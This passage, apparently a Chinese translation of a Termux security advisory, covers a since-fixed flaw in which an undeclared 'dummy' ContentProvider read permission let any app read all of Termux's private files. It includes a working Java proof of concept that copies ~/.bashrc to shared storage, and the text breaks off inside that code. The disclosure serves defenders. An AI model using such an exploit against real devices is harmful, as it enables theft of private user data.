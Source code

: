 查阅 `Termux:Widget` 的[`README`](https://github.com/termux/termux-widget#setup-instructions) 文件来获取更多详细信息。
##



## 3. Termux 文件全局可读

本漏洞允许 `/data/data/com.termux/files` 下的 **所有文件** 对 **任何应用程序** 可读。

本漏洞首先存在于 [`v0.47`](https://github.com/termux/termux-app/releases/tag/v0.47) (`2017-02-28`)版本，从 `v0.47` 到 `<= v0.117` 的任意版本均会收到该漏洞的影响。本漏洞被修复于 [`v0.118.0`](https://github.com/termux/termux-app/releases/tag/v0.118.0) (`2022-01-08`)版本。

该漏洞存在于 [Termux 的 `ContentProvider` 声明](https://github.com/termux/termux-app/blob/v0.117/app/src/main/AndroidManifest.xml#L171) 中，因为设置了 `android.permission.permRead` 作为 [`readPermission`](https://developer.android.com/guide/topics/manifest/provider-element)。实际上，当用户请求使用另一个应用程序打开文件，比如使用 `termux-open` 时，Termux 会[传递](https://github.com/termux/termux-app/blob/v0.117/app/src/main/java/com/termux/app/TermuxOpenReceiver.java#L77) [`FLAG_GRANT_READ_URI_PERMISSION` 标志](https://developer.android.com/guide/topics/providers/content-provider-basics#getting-access-with-temporary-permissions)，所以目标应用不需要具有 `android.permission.permRead` 权限也可以读取文件，这也需要 `provider` 元素中声明 `grantUriPermissions="true"`。但是，如果某些应用程序有这个权限，它就可以[通过 Termux `TermuxOpenReceiver$ContentProvider.openFile()`](https://github.com/termux/termux-app/blob/v0.117/app/src/main/java/com/termux/app/TermuxOpenReceiver.java#L177) 去 **读取** `files` 目录下的任何文件。

问题是，正如 `com.termux.permission.RUN_COMMAND` 这种自定义权限一样，Termux 并未公开声明 `android.permission.permRead` 权限。这种未公开声明权限可以被称为虚拟权限 (dummy permission)，可能是在添加 `ContentProvider` 时从一些教程或 StackOverflow 的回答中复制的，因为互联网搜索会显示来自不同站点的各种随机结果。这种虚拟权限本来应该被应用程序发布的自定义权限所替换，但事实上并非如此。这将会导致 **任何应用** 只需在自己的 `AndroidManifest.xml` 中发布这种权限，并通过 `uses-permission` 条目授予自己这种权限，就能够 **读取** `files` 下的任何文件和目录。

注意，其他应用程序只能 **读取** 文件，但不能 **写入** 文件，因为  `TermuxOpenReceiver$ContentProvider.openFile()` 返回了一个使用 `ParcelFileDescriptor.MODE_READ_ONLY` 文件的文件描述符，因此无法写入，如果调用者尝试写入，将会得到 `java.io.IOException: write failed: EBADF (Bad file descriptor)` 错误。 `provider` 元素中也没有设置 `writePermission`。这仅仅防止了任意代码执行和权限提升，在某些情况下，情况仍然十分糟糕。

### 1. POC

下面这段 POC 将读取 `/data/data/com.termux/files/home/.bashrc` 并写入到 `/sdcard/bashrc.txt`。


```java
private void runTermuxContentProviderReadCommand(Context context) {
    Uri uri = Uri.parse("content://com.termux.files/data/data/com.termux/files/home/.bashrc");
    //Uri uri = Uri.parse("content://com.termux.files/data/data/com.termux/files/usr/bin/login");
    InputStream inputStream = null;
    FileOutputStream fileOutputStream = null;

    try {
        inputStream = context.getContentResolver().openInputStream(uri);
        File outFile = new File(Environment.getExternalStorageDirectory(), "bashrc.txt");
        fileOutputStream = new FileOutputStream(outFile);
        byte[] buffer = new byte[4096];
        int readBytes;
        while ((readBytes = inputStream.read(buffer)) > 0) {
            Log.d(LOG_TAG, "data: " + new String(buffer, 0, readBytes, Charset.defaultCharset()));
            fileOutputStream.write(buffer, 0, readBytes);
        }
    } catch (Exception e) {
        e.printStackTrace();
    } finally {
        try {
            if (inputStream != null)
                inputStream.close();
            if (fileOutputStream != null)
                fileOutputStream.close();
        } catch (IOException e) {
            e.printStackTrace();
```